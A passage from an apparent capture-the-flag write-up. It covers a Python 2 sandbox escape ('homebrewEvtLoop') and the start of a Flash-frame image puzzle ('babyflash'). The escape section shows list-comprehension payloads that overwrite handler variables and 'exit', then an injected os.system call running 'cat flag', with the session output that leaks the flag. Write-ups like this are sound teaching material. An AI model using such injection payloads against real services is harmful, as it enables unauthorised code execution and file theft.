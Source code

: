 Try all 256 possibilities to leak the flag.

### homebrewEvtLoop#
We found that we can use list comprehension in last challenge.
In python2, the variable scope inside list comprehension is same as outside, which means we can overwrite the variable using list comp.


```
[[ping_handler]for[valid_event_chars]in[[1]]][0][0]114514

```

But the stdin is closed, we need to find a way to restore it:


```
[[load_flag_handler]for[flag2]in[[switch_safe_mode]]][0][0]114514

```

And then overwrite `exit` to bypass the input constraints.


```
hashlib.sha1(input).hexdigest() == "f270"
> aaaaaaaaaaaaaRZY
$ [[load_flag_handler]for[exit]in[[ping_handler]]for[flag2]in[[switch_safe_mode]]][0][0]114514
done
hashlib.sha1(input).hexdigest() == "a2d9"
> aaaaaaaaaaaaaow1
$ __import__("os").system("`cat flag`")114514
invalid request
invalid request
invalid request
invalid request
invalid request
invalid request
invalid request
invalid request
invalid request
invalid request
invalid request
invalid request
sh: 1: *ctf{pYth0n2-f3@tur3_R19ht?}: not found
exception
hashlib.sha1(input).hexdigest() == "ae82"
> lost sys.stderr

```

### babyflash

Given a `.swf` file, there is a flashlight animation with a very weird sound. At first we thought the flashlight is morse code, but turned out it is just some kind of encoding. We extract all the frames from the `.swf` file and get 441 images. Change white color to `blocks` and black to `spaces`. Resize the result:
![](https://i.imgur.com/W2Sez7u.png)
